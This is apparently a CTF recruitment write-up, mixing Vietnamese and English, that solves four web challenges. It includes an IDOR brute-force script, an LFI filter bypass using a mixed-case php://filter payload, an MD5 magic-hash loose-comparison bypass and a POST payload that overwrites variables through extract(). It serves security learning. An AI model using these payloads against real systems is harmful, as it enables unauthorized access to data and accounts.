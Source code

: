 ## KCSC Recruit Members 

## Robot

Challenge lụm flag

**Part 1**: `KCSC{C0r0n4_` --> source-code

**Part 2**: `v1ru22_1s_` --> robots.txt 

**Part 3** : `g0n3_n0w!!}` --> disallowed: /vaccine.php --> /vaccine -> cookies:vaccine=0 --> vaccine=1 

**Flag**: `KCSC{C0r0n4_v1ru22_1s_g0n3_n0w!!}`

## 2. Warm Up

```javascript
    const checkPassword = () => {
      const v = document.getElementById("password").value;
      const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));
      if(p[0] === 52043 &&
         p[6] === 52063 &&
         p[5] === 52075 &&
         p[16] === 52076 &&
         p[9] === 52067 &&
         p[10] === 52063 &&
         p[4] === 52041 &&
         p[3] === 52067 &&
         p[8] === 52080 &&
         p[7] === 52037 &&
         p[2] === 52073 &&
         p[11] === 52082 &&
         p[12] === 52031&&
         p[13] === 52069 && 
         p[14] == 52063 && 
         p[15] == 52071 && 
         p[1] == 52063) {
        window.location.replace(v + ".html");
      } else {
        alert("Wrong password!");
      }
    }
```

`const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));` : Lấy từng số trong string ra dưới dạng ascii code rồi cộng cho `0xcafe`. 0xcafe `hex2decimal` được `51966`. Sắp xếp lại possition rồi lấy `51966` trừ cho vế so sánh --> charcode --> password: `MakeKmaGreatAgain`

**flag**: `KCSC{j4v-a-SRript-i555-FUn}`

## DIOR

Viết láy của `IDOR - Insecure direct object reference`: arises when an application `uses user-supplied input` to access objects `directly`.

![any](idor.png)

`Brute-force` flag thôi:
```python
import requests

url = 'http://45.77.39.59/?number='

for i in range(2000):
  r = requests.get(url + f'{i}')
  if 'KCSC{' in r.text:
    print(r.text)
    break
```

**flag**: `KCSC{Gud_luckkkkk__brooo}`

## Magic PHP

Web app: 1 page login -> only admin see flag, another look like vulnerable to LFI.

http://45.77.39.59/?page=secret

Thử trigger LFI đọc `/etc/passwd` file:
```
Warning: include(/etc/passwd.php): Failed to open stream: No such file or directory in /var/www/html/index.php on line 14

Warning: include(): Failed opening '/etc/passwd.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 14
```
Add extension --> `null byte` --> *yes!!*

**payload read index.php file**: `pHp://filter/convert.base64-encode/resource=index`

*case-sensitive for bypass!!*
`index.php`
```php
<?php
    if (isset($_GET['page']) && !empty($_GET['page'])){
        $page = $_GET['page'];
        if(strpos($page, 'php') !== false){
          die("<center>Don' hack me ! Stop !!!</center>");
      }
      elseif (strpos(strtolower($page), 'flag')  ) {
        die("<center>Don' hack me ! Stop !!!</center>");
      }
    }
    else{
        $page = "login";
    }
    include ($page.".php");
?>
```

Đoạn này chẳng có gì nhiều, ngồi đục include to RCE thì là hỏng, chú ý khi không set `page` paramteter thì login sẽ redirect to `login.php`(đọc cho kĩ source-code jump!!).

`pHp://filter/convert.base64-encode/resource=login`

```php
<?php 
    
    include ("flag.php"); //real flag in $flag

  if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if(!empty($_POST) && isset($_POST['user']) && isset($_POST['pass'])){
      $password = random_int(10000000, 99999999);
      extract($_POST);
      $user_hash ='0e902564435691274142490923013038' ;
  
      if (md5($user) == $user_hash && $password === $pass){
        echo $flag;
        die();
      }else{
        die("Only admin have flag !!");
      }
    }
  }
?>
```
Trông dễ ăn đó, với user_hash thì md5 hash interger to 0e(0 mũ = 0) là bypass được --> `0e1137126905:0e291659922323405260514745084877`

Hàm extract() extract any variable in POST array. Và nó được gọi sau `$password` variable tức mình có thể ghi đè!!

full payload(POST): `user=0e1137126905&password=123&pass=123`

**flag**: `KCSC{LFI_to_loose_comparison@@}`

